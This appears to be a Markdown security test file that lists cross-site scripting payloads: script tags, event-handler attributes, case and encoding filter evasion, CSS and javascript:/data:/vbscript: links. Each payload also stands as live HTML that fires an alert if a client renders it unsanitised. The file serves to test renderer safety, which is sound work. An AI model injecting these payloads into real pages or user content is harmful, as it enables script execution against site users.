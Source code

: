 # XSS Attack Examples

This document showcases various XSS (Cross-Site Scripting) attack vectors for security testing purposes.

If you see an alert box at any point, the client application is vulnerable to XSS attacks through Markdown documents.


### Basic Script Injection

```html
<script>alert('Basic XSS')</script>
```

<script>alert('Basic XSS')</script>

### Event Handler Injection

#### Image with onerror script

```html
<img src="x" onerror="alert('Image onerror XSS')">
```

<img src="x" onerror="alert('Image onerror XSS')">

#### Input with onmouseover script

```html
<input type="text" onmouseover="alert('Mouseover XSS')">
```
<input type="text" onmouseover="alert('Mouseover XSS')">

#### Div with onload script

```html
<div onload="alert('onload XSS')">
```

<div onload="alert('onload XSS')">

### Filter Evasion Techniques

#### Case Variation

```html
<ScRiPt>alert('Case Variation XSS')</ScRiPt>
<SCRIPT>alert('Case Variation XSS')</SCRIPT> 
```

<ScRiPt>alert('Case Variation XSS')</ScRiPt>
<SCRIPT>alert('Case Variation XSS')</SCRIPT> 

#### HTML Encoding Bypass

<script>alert(&#x27;xss&#x27;)</script>
<script>alert(&apos;xss&apos;)</script>

```html
<script>alert(&#x27;xss&#x27;)</script>
<script>alert(&apos;xss&apos;)</script>
```

#### JavaScript String Encoding

```html
<script>alert(String.fromCharCode(120,115,115))</script>
```

<script>alert(String.fromCharCode(120,115,115))</script>

#### Alternative Tags

```html
<svg onload="alert('Alternative Tags XSS')">
<iframe src="javascript:alert('Alternative Tags XSS')">
<embed src="javascript:alert('Alternative Tags XSS')">
<object data="javascript:alert('Alternative Tags XSS')">
```

<svg onload="alert('Alternative Tags XSS')">
<iframe src="javascript:alert('Alternative Tags XSS')">
<embed src="javascript:alert('Alternative Tags XSS')">
<object data="javascript:alert('Alternative Tags XSS')">

### Event Handler Variations

```html
<body onload="alert('Event handler XSS')"></body>
<input type="image" src="x" onerror="alert('Event handler XSS')">
<isindex type="image" src="x" onerror="alert('Event handler XSS')">
<marquee onstart="alert('xss')"></marquee>
<select onfocus="alert('Event handler XSS')" autofocus></select>
<textarea onfocus="alert('Event handler XSS')" autofocus></textarea>
<keygen onfocus="alert('Event handler XSS')" autofocus></keygen>
```

<body onload="alert('Event handler XSS')"></body>
<input type="image" src="x" onerror="alert('Event handler XSS')">
<isindex type="image" src="x" onerror="alert('Event handler XSS')">
<marquee onstart="alert('xss')"></marquee>
<select onfocus="alert('Event handler XSS')" autofocus></select>
<textarea onfocus="alert('Event handler XSS')" autofocus></textarea>
<keygen onfocus="alert('Event handler XSS')" autofocus></keygen>

### CSS-Based XSS

```html
<style>
@import 'javascript:alert("CSS-Based XSS")';
</style>

<div style="background-image: url(javascript:alert('CSS-Based XSS'))">

<link rel="stylesheet" href="javascript:alert('CSS-Based XSS')">
```

<style>
@import 'javascript:alert("CSS-Based XSS")';
</style>

<div style="background-image: url(javascript:alert('CSS-Based XSS'))">

<link rel="stylesheet" href="javascript:alert('CSS-Based XSS')">

### Protocol Handler XSS

```html
<a href="javascript:alert('Protocol Handler XSS')">Click me</a>
<a href="data:text/html,<script>alert('Protocol Handler XSS')</script>">Click me</a>
<a href="vbscript:msgbox('Protocol Handler XSS')">Click me</a>
```

<a href="javascript:alert('Protocol Handler XSS')">Click me</a>
<a href="data:text/html,<script>alert('Protocol Handler XSS')</script>">Click me</a>
<a href="vbscript:msgbox('Protocol Handler XSS')">Click me</a>

